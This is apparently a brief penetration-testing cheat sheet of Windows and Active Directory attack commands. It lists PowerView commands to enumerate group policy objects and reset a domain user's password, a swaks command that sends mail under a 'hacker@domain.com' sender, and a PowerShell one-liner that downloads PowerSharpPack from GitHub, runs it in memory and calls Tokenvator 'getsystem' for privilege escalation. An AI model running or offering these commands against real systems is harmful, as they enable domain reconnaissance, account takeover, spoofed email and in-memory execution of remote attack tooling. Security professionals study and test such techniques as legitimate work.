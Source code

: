 List GPO's
```powershell
Get-NetGPO
```

Reset user PW through PowerView
```powershell
Set-DomainUserPassword -Identity User -Verbose
```

Send mail with swaks
```shell
swaks --to w@domain.com --server 192.168.1.1 --body "Hello" --header "Subject: Issues"  --from hacker@domain.com
```

PowerSharpPack
```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
PowerSharpPack -Tokenvator -Command "getsystem powershell.exe"
```
